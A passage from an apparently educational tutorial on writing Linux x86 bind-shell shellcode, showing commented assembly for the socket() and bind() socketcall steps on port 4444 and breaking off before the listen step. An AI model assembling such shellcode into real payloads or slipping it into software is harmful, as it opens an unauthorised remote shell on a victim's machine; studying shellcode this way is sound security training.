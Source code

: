```
        inc    ebx      ; setting EBX 0x1 (socketcall: SYS_SOCKET[1])                           :       [socketCall_struct --> REF4]
        push   ebx      ; setting ECX param in memory - 0x1,0x0 (socket: SOCK_STREAM[1])        :       [socket --> REF2]
        push   0x2      ; setting ECX param in memory - 0x2,0x1,0x0 (socket: AF_INET[2])        :       [socket --> REF2]
        mov    ecx,esp  ; ECX points to args on stack for socket()                              :       [socket_struct --> REF3]
        int    0x80     ; calling socketcalll(SYS_SOCKET, (socket(AF_INET, SOCK_STREAM, 0))
	xor    esi,esi	;
	mov    esi,eax 	; save sockfd in ESI for future syscalls
```

## Attaching the bind() property to our socket

Now that we have our socket, let's go ahead and bind it to an address. In this case we want to bind it to sin_port (port) 4444.

This can be achieved with the syscall "socketcalll(SYS_BIND,(sockfd,(socketArgs, 4444),addrlen(4444))".

In assembly that looks like this:
```
; [+] Setting up socketcall() for SYS_BIND
        ; int socketcall(int call, unsigned long *args)
        ; int bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
        ; EAX = socketcall
        ; EBX = SYS_BIND[2]
        ; ECX = (int sockfd, const struct sockaddr *addr, socklen_t addrlen)
        mov    al,0x66  ; setting syscall as socketcall()
        pop    ebx      ; setting EBX to 0x2 (socketcall: SYS_BIND[2])                          :       [socketcall --> REF1]
        pop    edx      ; removing 0x1 from stack
        xor    edx,edx  ;
        push   edx      ; setting ECX param in memory - NULLBREAK
        push   word 0x5c11      ; setting ECX param in memory - 0x5c11,0x00 (PORT)              :       [bind --> REF5]
        push   0x10     ; setting ECX in memory - 0x10 is 16 bytes - 0x10,0x5c11,0x00           :       [bind --> REF5]
        push   ecx      ; setting ECX in memory - *SYS_SOCKET-struct,0x10,0x5c11,0x00           :       [bind --> REF5] 
        push   esi      ; pushing socket fd onto stack  (SYS_SOCKET-sockfd)                     :       [bind --> REF5]
        mov    ecx,esp  ; save pointer of BIND args into ecx                                    :       [bind --> REF5]
        int    0x80     ; calling socketcalll(SYS_BIND,(sockfd, sockaddr(4444), addrlen(16 bytes))
```


## Listening on our socket
To actually accept connections, we first need to listen on the socket. Let's do just that.
